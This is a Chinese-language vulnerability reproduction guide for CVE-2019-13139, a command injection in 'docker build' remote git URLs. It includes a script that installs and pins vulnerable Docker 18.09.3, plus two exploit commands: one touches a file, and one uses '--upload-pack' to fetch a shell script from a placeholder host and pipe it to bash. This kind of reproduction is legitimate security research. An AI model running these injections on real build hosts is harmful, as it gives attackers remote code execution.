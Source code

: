 # Docker build 漏洞导致命令执行 CVE-2019-13139

## 漏洞描述

使用 `docker build` 命令构建本地镜像时，支持使用远程 url 参数作为构建环境，并且这个远程构建环境可以是一个 git 仓库。

在 Docker 18.9.4 之前版本中，`docker build` 过程中对 `remoteUrl` 解析存在缺陷，导致了 `remoteUrl` 中的部分字符串会被作为命令执行。

参考链接：

  - https://nvd.nist.gov/vuln/detail/CVE-2019-13139
  - https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
  - https://github.com/Metarget/metarget

## 漏洞影响

```
Docker < 18.9.4
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_docker_18.09.03.sh` 安装 Docker 18.9.3：

```
#!/bin/bash
set -e
echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 18.09.3..."
VERSION_STRING=$(apt-cache madison docker-ce | grep 18.09.3 | head -n1 | awk '{print $3}')
if [ -z "$VERSION_STRING" ]; then
  echo "[*] Docker 18.09.3 not found"
  exit 1
fi
echo "[*] Found version: $VERSION_STRING"

echo "[*] Installing Docker version $VERSION_STRING ..."
sudo apt install -y docker-ce=$VERSION_STRING docker-ce-cli=$VERSION_STRING containerd.io

echo "[*] Locking version to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current version:"
docker --version
```

![](images/Docker%20build%20漏洞导致命令执行%20CVE-2019-13139/image-20250421090739097.png)

## 漏洞复现

执行相关利用命令，执行结果报错但不影响:

```
docker build "git@g.com/a/b#--upload-pack=touch 13139.txt;:"
```

查看命令是否执行成功：

```
ls | grep 13139
------
13139.txt
```

![](images/Docker%20build%20漏洞导致命令执行%20CVE-2019-13139/image-20250421090836057.png)

下载远程 shell 文件并执行：

```
# port must be 80
docker build "git@github.com/a/b#--upload-pack=curl -s your-ip/shell.sh|bash;#:"
```

![](images/Docker%20build%20漏洞导致命令执行%20CVE-2019-13139/image-20250421092642068.png)

## 漏洞修复

- 升级至最新版本 https://docs.docker.com/engine/release-notes/
